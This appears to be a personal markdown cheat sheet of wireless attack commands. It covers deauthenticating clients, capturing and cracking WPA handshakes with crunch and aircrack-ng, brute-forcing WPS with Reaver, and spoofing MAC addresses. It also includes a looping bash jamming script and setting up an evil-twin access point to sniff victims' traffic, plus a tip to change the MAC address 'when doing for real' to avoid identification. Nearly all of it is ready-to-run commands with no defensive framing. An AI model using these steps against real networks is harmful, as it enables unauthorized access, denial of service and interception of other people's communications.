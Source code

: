# Wireless Vulnerablities
## overview of tools 
### aircrack-ng  
from this https://ubuntuforums.org/showthread.php?t=528276  
##### change wifi card from promiscuous to monitor mode.  
1. `ifconfig`  
2. `ifconfig wlan0 down`  
3. `iwconfig wlan0 mode monitor|manage`  
4. `ifconfig wlan0 up`  
##### check airmon-ng is good to go
1. `airmon-ng check wlan0`  
2. kill processes that are running.  `kill NetworkManager`  
##### run airodump-ng
1. `airodump-ng wlan0`  
2. `airodump-ng --channel 1 --bssid 12:34:45:45:67:80 --write dump.pca wlan0`  
##### seperate terminal  
3. `sudo aireplay-ng -1 0 -e <target_essid> -a 00:09:5B:D7:43:A8 -h MY:MA:CA:DD:RE:SS <interface>` -1... '0' deauthenticates all clients. -e... ESSID of target access point. -a... MAC address of target access point. -h... MAC address of your choice. its either no mac filtering or mac filtering  
Mac filtering is turned off  
```
18:22:32 Sending Authentication Request
18:22:32 Authentication successful
18:22:32 Sending Association Request
18:22:32 Association successful :-)
```
##### No MAC filtering  
--- `sudo aireplay-ng -3 -b 00:09:5B:D7:43:A8 -h MY:MA:CA:DD:RE:SS <interface>`  -3... Standard ARP-request replay. -b... MAC address of target access point. -h... MAC address of your choice.  
##### MAC filtering 
-- `sudo aireplay-ng -0 5 -a 00:09:5B:D7:43:A8 -c 00:00:00:00:00:00 <interface>`  -0... Number of deauthentication attempts. -a... MAC address of target access point.  -c... Client MAC address.  
-- `sudo aireplay-ng -3 -b 00:09:5B:D7:43:A8 -h 00:00:00:00:00:00 <interface>`  -3... Standard ARP-request replay. -b... MAC address of target access point. -h... Client MAC address.  
##### Decryption with "aircrack-ng" & "aircrack-ptw"  
1. `sudo aircrack-ng <file_name>.cap`  
2. `./aircrack-ptw <file_name>.cap`  
`crunch 10 10 -t %%%%%%%123 | aircrack-ng -w - SCAN-test.cap -e <essid>`   
[Aircrack-ng](http://aircrack-ng.org/doku.php?id=aircrack-ng)  
https://www.aircrack-ng.org/doku.php?id=cracking_wpa  

```
Aircrack-NG:
64-bit key: ~250,000 packets
128-bit key: ~1,500,000 packets

Aircrack-PTW:
64-bit key: ~20,000 packets [estimate]
128-bit key: ~85,000 packets
```

#### from video  
##### change wifi card from promiscuous to monitor mode.  
1. `ifconfig`  
2. `ifconfig wlan0 down`  
3. `iwconfig wlan0 mode monitor`  
4. `ifconfig wlan0 up`
##### check airmon-ng is good to go
5. `airmon-ng check wlan0`  
6. kill processes that are running.  `kill NetworkManager`  
##### run airodump-ng
7. `airodump-ng wlan0`  
8. `airodump-ng --channel 1 --bssid 12:34:45:45:67:80 --write SCAN_test wlan0`  
*NEW TERMINAL*  this authenticates all clients on network - 0 means just goes on forever.  let it run for a while  
9. `aireplay-ng -0 0 -a 12:34:45:45:56:88 wlan0`  
10. ctr ^ C to stop  
11. one first terminal check to see if wpa handshake is captured.  if so stop capture.  
*FRESH TERMINAL*  
12. `crunch 10 10 -t @@@@@@@@@@ | aircrack-ng -w - SCAN_test-01.cap -e <essid>`  
##### try using a list cd crunch-3.6 find charset.lst 
13. `crunch 10 10 -t @@@@@@@@@@ -f charset.lst mixalpha-numeric-space`  
14. `aircrack-ng -w /root/nmap.lst SCAN_test-01.cap`  

#### Change your wifi's card MAC Address 
``` 
ifconfig wlan0 down
ifconfig wlan0 hw ether 00:11:22:33:44:55
ifconfig wlan0 up
```
or 
```
ifconfig mon0 down
macchanger -a mon0
ifconfig mon0 up
macchanger -s mon0
```

# REAVER v1.5.2 WiFi Protected Setup Attack Tool
`reaver --help`  
1. `ifconfig`  
2. `ifconfig wlan0 down`  
3. `iwconfig wlan0 mode monitor`  
4. `ifconfig wlan0 up`  
##### check airmon-ng is good to go
5. `airmon-ng check wlan0`  
6. kill processes that are running.  `kill NetworkManager` 
##### use wash to check if wps is locked
7. `wash -i wlan0mon`  or `wash -i wlan0mon --ignore-fcs`  
8. check PWR is above -60  
9. `airodump-ng wlan0mon`  
10. `reaver -b mac-address-of-router -i wlan0mon -c 1 -vv` 
##### you may need to self associate using aireplay-ng 
11. `aireplay-ng -1 0 wlan0mon -a <bssid>`  
12 . `reaver -i wlan0mon -b <bssid> -c 1 -A -vv`  
13. `reaver -i wlanmon -b <bssid> -c 1 -r 2:60`  

# Signal Jamming and DOS 
1. put network card into monitor mode
2. `airmon-ng check wlan0`
*note* when doing for real change mac address of wireless interface  
`ifconfig wlan0 down`
`macchanger -A wlan0`  
`ifconfig wlan0 up`
3. `airodump-ng wlan0` 
4. `aireplay-ng -0 0 -a <bssid> wlan0`  or and (-c <clients's mac>) as to not knock everyone off network.  
if you have to configure channel  
5. `iwconfig wlan0 channel <num>`  

#### write jam script
```
#!/bin/bash 
while true
do 
    aireplay-ng -0 5 -a <bssid> wlan0
    ifconfig wlan0 down
    macchanger -r wlan0 | grep "New MAC"
    iwconfig wlan0 mode monitor 
    ifconfig wlan0 up
    iwcofig wlan0 | grep Mode
    sleep 3
    echo "Waiting!!!!!"
done
```

# Evil twin  
[more info](http://www.kalitutorials.net/2014/07/evil-twin-tutorial.html)
`ifconfig wlan0 down`  
`iwconfig wlan0 mode monitor`  
`airmon-ng check wlan0`  
kill processes that are running nm first    
`airodump-ng wlan0`  
take mac addess you want to clone  
`airbase-ng -a <bssid> --essid thename -c 6 wlan0`  
**do not shut down airbase**
deauthenticate the network  
`aireplay-ng -0 0 -a <bssid> wlan0`  

##### if not already installed install
`apt-get install bridge-utils -y`  
`brctl addbr evil`  
`brctl addif evil at0`  
`ifconfig at0 0.0.0.0 up`  
`ifconfig evil up`  
`dhclient evil &`  

##### listen to traffic  
* install wireshark  





